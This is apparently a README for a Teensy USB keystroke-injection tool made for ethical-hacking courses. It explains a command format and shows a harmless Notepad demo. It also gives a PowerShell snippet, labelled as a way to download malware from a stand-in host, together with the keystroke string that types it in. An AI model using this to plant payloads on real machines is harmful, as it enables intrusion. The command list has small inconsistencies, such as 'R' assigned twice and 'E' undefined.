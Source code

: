 # teensy
Tools and projects all around the Teensy USB Development Board

## teensy_keyboard

Based on the Keyboard-Library and example from the Teensy Homepage:
https://www.pjrc.com/teensy/index.html

This program allows you to define a very simple string which is parsed and
sent as Keystrokes to the Computer after the Teensy gets pluged in.

I created this to simulate Malicious USB-Sticks in Ethical-Hackin courses
and presentations withing [ThinkArena](http://www.denkarena.ch/)

### Commands and Format

The String can be of Keystrokes, Strings, Pause, Return and others:
* The `K:` is used to simulate a KeyStroke with a modifier key
* The `S:` is used to write a string
* The `W:` is used to wait the given amount of milliseconds before the next line is processed
* The `X` is used to send a ESC Keystroke
* The `R` is used to send the RETURN/ENTER key
* The `T` is used to send the TABULATOR key
* The `U` is used to send the ARROW-UP key
* The `D` is used to send the ARROW-DOWN key
* The `L` is used to send the ARROW-LEFT key
* The `R` is used to send the ARROW-RIGHT key

For better readability you can use a doublepoint to sepaarte the command character from the following string.

**Example**

Open Notepad and write something:
```
K WIN R
W 50
S notepad
W 200
S You've just inserted a malicious USB-Stick.
E
S Always take care about what you're connection
E
S Cheers...
E
```

### Downlaod in Windows

Under Windows you can use something like this on Windows to download Maleware in a Powershell:

```Batchfile
$client = New-Object System.Net.WebClient
$client.DownloadFile("http://www.example.com/file.exe", "C:\")
```

This would result in a String like this:
```
K: WIN R
W: 50
S: powershell
E:
S: $client = New-Object System.Net.WebClient
E:
S: $client.DownloadFile("http://www.example.com/file.exe", "C:\")
E:
```


